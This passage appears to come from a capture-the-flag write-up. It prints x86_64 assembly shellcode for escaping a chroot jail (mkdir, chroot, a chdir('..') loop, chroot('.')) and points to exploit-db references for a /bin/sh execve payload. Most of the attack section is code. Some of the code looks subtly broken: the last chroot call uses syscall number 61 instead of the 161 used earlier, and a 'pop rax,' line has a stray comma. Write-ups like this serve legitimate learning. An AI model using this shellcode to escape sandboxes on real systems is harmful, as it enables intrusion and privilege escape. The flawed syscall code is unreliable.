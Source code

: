 ## Shellcode Time
Time to write some shellcode, nasm wasn't installed on my ubuntu machine so went ahead and grabbed it:
```
sudo apt install nasm
```
The relevant `shell.py` and `shellcode.c` files are in the `solve/` directory, so if you're curious what those are feel free to go there. we wanted to explain briefly a quick introduction to shellcode writing both for my future self, and others actually reading this write up to learn :) 

Shellcode is essentially just really efficient assembly writing. This blog won't teach you x86_64 assembly, but heres some good resources: 
```
wikibooks: https://en.wikibooks.org/wiki/X86_Assembly
Linux system calls: https://syscall.sh/
```

Continuing on we need to escape from chroot using some shellcode so lets see if our friend exploitdb has some good sources:
```
x86 chroot escpae (clean code): https://www.exploit-db.com/shellcodes/13577
x64 /bin/sh execve: https://www.exploit-db.com/shellcodes/38150
```
Combining these two examples into one assembly file we gain: 
```
BITS 64
; mkdir("...", 0700);
push 83
pop rax, ;mkdir syscall
push byte 0x2e
push word 0x2e2e
mov rdi, rsp
mov rsi, 0700o
syscall

; chroot("...");
mov rax, 161
mov rdi, rsp
syscall 

; for (i = 100; i > 0; i--)
; {
; 	chdir("..");
; }
pop dx ; addr ".."
xor rcx, rcx
push rcx
push dx ;setup stack for ".."
mov cl, 100
up:
	mov rax, 80
	mov rdi, rsp
	push rcx ;preserve from clobber
	syscall
	pop rcx
loop up

; chroot(".");
mov rax, 61
xor rcx, rcx
mov [rsp + 1], cl
mov rdi, rsp
syscall

;execve(/bin/sh)
```
